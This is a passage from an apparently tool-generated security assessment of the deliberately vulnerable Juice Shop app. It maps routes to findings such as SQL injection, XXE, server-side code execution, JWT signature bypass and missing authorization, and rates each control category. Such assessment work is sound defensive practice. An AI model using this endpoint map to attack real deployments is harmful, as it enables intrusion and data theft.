(.github/dependabot.yml:1)<br/>🟢 <a href="#f-066">F-066</a> — SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (<code>ci.yml:223</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Customer PII (Profiles, Feedback, Complaints)</td><td style="white-space:nowrap">A-009</td><td>Confidential</td><td>User profile data, customer feedback, complaint text, and memory photos stored across multiple SQLite tables. Accessible via IDOR-vulnerable REST endpoints.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-006">F-006</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-019">F-019</a> — DOM XSS (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>🟠 <a href="#f-034">F-034</a> — SQLite database file stored unencrypted at rest (<code>models/index.ts:38</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Application Configuration Endpoint (<code>server.ts:605</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-039">F-039</a> — CTF Flag Broadcast to All Unauthenticated WebSocket (<code>lib/challengeUtils.ts:71</code>)<br/>🔴 <a href="#f-046">F-046</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-050">F-050</a> — Missing Authorization on PUT <code>/api/Products/:id</code> (<code>server.ts:369</code>)<br/>🔴 <a href="#f-051">F-051</a> — Mass Assignment Admin Role Injection (<code>server.ts:483</code>)<br/>🔴 <a href="#f-054">F-054</a> — XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟡 <a href="#f-058">F-058</a> — Unauthenticated B2B API attack surface disclosure (<code>server.ts:286</code>)<br/>🟢 <a href="#f-066">F-066</a> — SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (<code>ci.yml:223</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User-Uploaded Files</td><td style="white-space:nowrap">A-006</td><td>Internal</td><td>Files uploaded via POST <code>/file-upload</code> (XML, images) and profile images. Stored in assets/public/images/uploads/. XML files are parsed with libxmljs2 with DTD expansion enabled — XXE attack surface.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-009">F-009</a> — Server-Side Code Execution (<code>routes/userProfile.ts:62</code>)<br/>🔴 <a href="#f-011">F-011</a> — XML External Entity Expansion (<code>routes/fileUpload.ts:83</code>)<br/>🔴 <a href="#f-014">F-014</a> — Server-side RCE (<code>routes/b2bOrder.ts:23</code>)<br/>🟠 <a href="#f-025">F-025</a> — Zip-Slip Path Traversal (<code>routes/fileUpload.ts:45</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-038">F-038</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-044">F-044</a> — XML Billion-Laughs DoS (<code>routes/fileUpload.ts:83</code>)<br/>🟡 <a href="#f-058">F-058</a> — Unauthenticated B2B API attack surface disclosure (<code>server.ts:286</code>)<br/>🟢 <a href="#f-065">F-065</a> — No Audit Logging for Unauthenticated File Uploads (<code>routes/fileUpload.ts:75</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Challenge State and Score</td><td style="white-space:nowrap">A-008</td><td>Internal</td><td>Hacking challenge completion status tracked in the Challenge model (SQLite). Includes solve timestamps and flags. Manipulation allows cheating in CTF competitions using Juice Shop.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-039">F-039</a> — CTF Flag Broadcast to All Unauthenticated WebSocket (<code>lib/challengeUtils.ts:71</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Server Process (Node\.js Runtime)</td><td style="white-space:nowrap">A-010</td><td>Internal</td><td>The running Node\.js server process and its environment. RCE via the B2B API (<code>b2bOrder.ts</code>) or file upload XXE can compromise the entire runtime, granting access to all assets.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (55)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-011">F-011</a> — XML External Entity Expansion (<code>routes/fileUpload.ts:83</code>)<br/>🔴 <a href="#f-052">F-052</a> — Unsafe YAML Deserialization (<code>routes/fileUpload.ts:117</code>)<br/>🟢 <a href="#f-065">F-065</a> — No Audit Logging for Unauthenticated File Uploads (<code>routes/fileUpload.ts:75</code>)<br/>File upload with XXE (libxmljs2 DTD expansion) — high risk, no auth required</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-009">F-009</a> — Server-Side Code Execution (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-038">F-038</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>User profile update — stored XSS via profile fields</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-002">F-002</a> — Derived Credential from OAuth Email Claim (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-005">F-005</a> — Unsalted MD5 password hashing (<code>lib/insecurity.ts:43</code>)<br/>handler: <code>server.ts:594</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-009">F-009</a> — Server-Side Code Execution (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-038">F-038</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:663</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-008">F-008</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>handler: <code>server.ts:600</code></td></tr>
<tr><td>?</td><td style="overflow-wrap:anywhere"><code>LDAP Login endpoint (POST /​rest/​user/​login with LDAP path)</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🟠 <a href="#f-026">F-026</a> — Missing Audit Logging for Authentication Events (<code>routes/login.ts:18</code>)<br/>🟠 <a href="#f-001">F-001</a> — JWT Session Token in localStorage (<code>login.component.ts:101</code>)<br/>Routes through ldapauth-fork; LDAP injection challenge surface. Unauthenticated.</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>🟠 High</td><td>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-038">F-038</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>Profile image upload — path traversal and SSRF via URL parameter risk</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>🟠 High</td><td>🟠 <a href="#f-038">F-038</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>Profile image URL fetch — SSRF to arbitrary URLs</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>🟠 High</td><td>🟠 <a href="#f-035">F-035</a> — Unauthenticated Application Configuration Endpoint (<code>server.ts:605</code>)<br/>Admin endpoint exposing full application configuration — information disclosure</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-016">F-016</a> — Brute-Forceable Security Question Password Reset (<code>routes/resetPassword.ts:41</code>)<br/>🟠 <a href="#f-043">F-043</a> — No Rate Limiting on Login Endpoint (<code>server.ts:594</code>)<br/>🟠 <a href="#f-026">F-026</a> — Missing Audit Logging for Authentication Events (<code>routes/login.ts:18</code>)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/saveLoginIp</code></td><td>🟠 High</td><td>🔴 <a href="#f-020">F-020</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>handler: <code>server.ts:617</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/change-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-028">F-028</a> — Password Credentials in URL Query Parameters (<code>user.service.ts:54</code>)<br/>handler: <code>server.ts:595</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/security-question</code></td><td>🟠 High</td><td>🟠 <a href="#f-016">F-016</a> — Brute-Forceable Security Question Password Reset (<code>routes/resetPassword.ts:41</code>)<br/>handler: <code>server.ts:597</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🟠 High</td><td>🟠 <a href="#f-001">F-001</a> — JWT Session Token in localStorage (<code>login.component.ts:101</code>)<br/>🟠 <a href="#f-024">F-024</a> — User role field writable without ownership check in model (<code>models/user.ts:80</code>)<br/>🟠 <a href="#f-032">F-032</a> — Docker base image not digest-pinned — Dockerfile:1<br/>handler: <code>server.ts:649</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:54</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks</code></td><td>-</td><td>handler: <code>server.ts:401</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>-</td><td>Prometheus metrics - internal metrics exposed publicly<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>-</td><td>Admin endpoint exposing application version - information disclosure, no auth<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:610</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>-</td><td>Memory photo upload - no auth signal, accessible by any user<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>-</td><td>Order delivery status update - IDOR, privilege escalation<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>-</td><td>User data export - IDOR risk, full data dump<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>-</td><td>Wallet balance update - IDOR, financial manipulation<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>-</td><td>Web3 exploit address - direct RCE challenge surface<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>Web3 NFT verify - unauthenticated Web3 wallet interaction<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>Snippet verdict - code challenge answer submission, admin surface<br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_26 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (55 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (54)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/b2b/v2/orders</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-014">F-014</a> — Server-side RCE (<code>routes/b2bOrder.ts:23</code>)<br/>🟠 <a href="#f-041">F-041</a> — Event-loop blocking DoS (<code>routes/b2bOrder.ts:23</code>)<br/>🟡 <a href="#f-055">F-055</a> — No audit log of B2B order submissions or RCE attempt (<code>routes/b2bOrder.ts:16</code>)<br/>handler: <code>server.ts:645</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-042">F-042</a> — Unbounded in-memory MarsDB collections with no eviction (<code>data/mongodb.ts:9</code>)<br/>🔴 <a href="#f-050">F-050</a> — Missing Authorization on PUT <code>/api/Products/:id</code> (<code>server.ts:369</code>)<br/>handler: <code>server.ts:369</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-042">F-042</a> — Unbounded in-memory MarsDB collections with no eviction (<code>data/mongodb.ts:9</code>)<br/>🔴 <a href="#f-050">F-050</a> — Missing Authorization on PUT <code>/api/Products/:id</code> (<code>server.ts:369</code>)<br/>handler: <code>server.ts:370</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Products</code></td><td>🟠 High</td><td>🟠 <a href="#f-042">F-042</a> — Unbounded in-memory MarsDB collections with no eviction (<code>data/mongodb.ts:9</code>)<br/>🔴 <a href="#f-050">F-050</a> — Missing Authorization on PUT <code>/api/Products/:id</code> (<code>server.ts:369</code>)<br/>handler: <code>server.ts:368</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🟠 High</td><td>🟠 <a href="#f-038">F-038</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-051">F-051</a> — Mass Assignment Admin Role Injection (<code>server.ts:483</code>)<br/>handler: <code>server.ts:362</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🟠 High</td><td>🟠 <a href="#f-038">F-038</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-051">F-051</a> — Mass Assignment Admin Role Injection (<code>server.ts:483</code>)<br/>handler: <code>server.ts:407</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>-</td><td>handler: <code>server.ts:425</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:439</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:440</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:441</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>-</td><td>handler: <code>server.ts:432</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:387</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:388</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:389</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>-</td><td>handler: <code>server.ts:470</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>-</td><td>handler: <code>server.ts:464</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>-</td><td>handler: <code>server.ts:457</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>-</td><td>handler: <code>server.ts:601</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:602</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:633</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_28 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (54 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§7](#7-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 27 total - 1 adequate, 5 partial, 4 weak, 12 unsafe, 5 missing. Linked threats: 68._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls) | 🔴 Unsafe | 8 routed findings; catalogued controls are<br/>present but defeated (e.g. Password-Based<br/>Authentication, API Key / Bearer Token<br/>Authentication). |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🔴 Unsafe | 1 routed finding; catalogued controls are<br/>present but defeated (e.g. JWT Token<br/>Lifecycle). |
| [7.4 Authorization Controls](#74-authorization-controls) | 🔴 Missing | 8 routed findings; required controls not in<br/>place (e.g. Route-Level Authorization<br/>Middleware, Object-Level Authorization (IDOR<br/>prevention)). |
| [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls) | 🔴 Unsafe | 2 routed findings; catalogued controls are<br/>present but defeated (e.g. SQL Query<br/>Parameterization). |
| [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls) | 🟠 Weak | 6 routed findings; catalogued controls are<br/>weak (e.g. Server-Side Input Validation). |
| [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls) | 🟠 Weak | 4 routed findings; catalogued controls are<br/>weak (e.g. XSS Prevention (Angular/HTML<br/>encoding)). |
| [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Missing | Required controls not in place (e.g. CORS<br/>Policy, Content Security Policy (CSP)). |
| [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection) | 🔴 Unsafe | 6 routed findings; catalogued controls are<br/>present but defeated (e.g. Secrets<br/>Management, Password Hashing). |
| [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🔴 Unsafe | 11 routed findings; catalogued controls are<br/>present but defeated (e.g. File Upload<br/>Security, XML External Entity (XXE)<br/>Prevention). |
| [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 13 routed findings; required controls not in<br/>place (e.g. Dependency Management and<br/>Vulnerability Scanning, Rate Limiting and<br/>Anti-Automation). |
| [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🔴 Unsafe | Catalogued controls are present but defeated<br/>(e.g. WebSocket / Socket\.IO Security, B2B<br/>Remote Code Execution Prevention). |
| [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §7.1 MECHANICAL-FROZEN END -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.2.1 Password-Based Authentication](#721-password-based-authentication)
- [7.2.2 API Key / Bearer Token Authentication](#722-api-key-bearer-token-authentication)
- [7.2.3 User Registration](#723-user-registration)
- [7.2.4 Password Reset](#724-password-reset)
- [7.2.5 Multi-Factor Authentication](#725-multi-factor-authentication)
- [7.2.6 OAuth/OIDC](#726-oauthoidc)

**Implemented controls:** `routes/login.ts`, `lib/insecurity.ts`; `lib/insecurity.ts`, `server.ts`; Detected in scope: GET `/api/Users`; Detected in scope: POST `/rest/user/reset-password`; Detected in scope: POST `/rest/2fa/verify`.

**Assessment:** Authentication exists for every mechanism - password login, OAuth adapter, TOTP, and password reset - but every flow has a exploitable defect that defeats the control entirely. SQL injection in the login route allows credential bypass without a valid password; the OAuth flow derives a deterministic local password from the user's email address (invalidating the IdP as a trust boundary); TOTP verification accepts JWTs signed with the `alg:none` algorithm; and the security-question reset is brute-forceable. Each successful authentication flow terminates in a session JWT; the signing, validation, storage, and lifecycle of that token are described in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<!-- §7.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§7.3 Session and Token Controls](#73-session-and-token-controls) and password hashing under [§7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|--------|-----------|------------------------------------------------|
| User registration | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-017](#f-017) — Missing Authentication on WebSocket Connection — `registerWebsocketEvents.ts:24`<br/>🟠 [F-024](#f-024) — User role field writable without ownership check in model — `models/user.ts:80`<br/>🔴 [F-046](#f-046) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`<br/>🔴 [F-051](#f-051) — Mass Assignment Admin Role Injection — `server.ts:483`<br/>🟠 [F-053](#f-053) — Client-Controlled Challenge Solver — `registerWebsocketEvents.ts:41`<br/>🟡 [F-064](#f-064) — No Rate Limiting or Connection Cap on Socket\.IO — `registerWebsocketEvents.ts:20` |
| Password login | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-016](#f-016) — Brute-Forceable Security Question Password Reset — `routes/resetPassword.ts:41` |
| Password reset / change | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-016](#f-016) — Brute-Forceable Security Question Password Reset — `routes/resetPassword.ts:41` |
| Password storage (hashing) | 🔴 Unsafe | [§7.9](#79-cryptography-secrets-and-data-protection) | 🔴 [F-005](#f-005) — Unsalted MD5 password hashing — `lib/insecurity.ts:43` |
| JWT / bearer-token session | 🔴 Unsafe | [§7.3](#73-session-and-token-controls) | 🟠 [F-001](#f-001) — JWT Session Token in localStorage — `login.component.ts:101`<br/>🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:54`<br/>🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — `lib/insecurity.ts:23`<br/>🟠 [F-045](#f-045) — JWT Algorithm Bypass in 2FA Token Verification — `routes/2fa.ts:26` |
| Session-token storage | 🟠 High | [§7.3](#73-session-and-token-controls) | 🟠 [F-001](#f-001) — JWT Session Token in localStorage — `login.component.ts:101` |
| Multi-factor authentication (TOTP / 2FA) | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-045](#f-045) — JWT Algorithm Bypass in 2FA Token Verification — `routes/2fa.ts:26` |
| OAuth / OIDC federated login | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-002](#f-002) — Derived Credential from OAuth Email Claim — `oauth.component.ts:30`<br/>🟠 [F-015](#f-015) — OAuth Implicit Flow Token Exposure — `login.component.ts:134` |

<!-- §7.2 AUTH-MECHANISMS-FROZEN END -->

**Threat hypotheses requiring validation.** Architecture- and control-derived threats. Plausible but not yet source-to-sink proven; each entry needs a `validate-or-refute` pentest probe before it becomes a finding.

| ID | Hypothesis | Control Gap | Evidence | Validation |
|-------|----------------------|----------------------|--------|----------------------|
| HYP-001 | XSS exposure from weak output encoding | Template Autoescape, Output Encoding,<br/>Content Security Policy | _?_ | _pending validation objective_ |
| HYP-002 | SQL injection exposure from ad-hoc SQL<br/>construction | Parameterized Queries, ORM / Repository<br/>Layer | _?_ | _pending validation objective_ |
| HYP-003 | Broken Access Control exposure from<br/>inconsistent AuthZ | Centralised AuthZ Policy, Role / Scope<br/>Enforcement, Ownership Check | _?_ | _pending validation objective_ |
| HYP-004 | State-changing or management route without<br/>an authentication gate | Route Authentication Middleware, Server-Side<br/>Session Enforcement | _?_ | _pending validation objective_ |
| HYP-005 | Authenticated object-addressing route<br/>without an authorization gate (BOLA/IDOR<br/>surface) | Object-Level Ownership Check, Tenant Scoping | _?_ | _pending validation objective_ |
| HYP-006 | Broken input validation exposure | Schema Validation, Allowlist Validation | _?_ | _pending validation objective_ |

<a id="password-based-authentication"></a>
#### 7.2.1 Password-Based Authentication

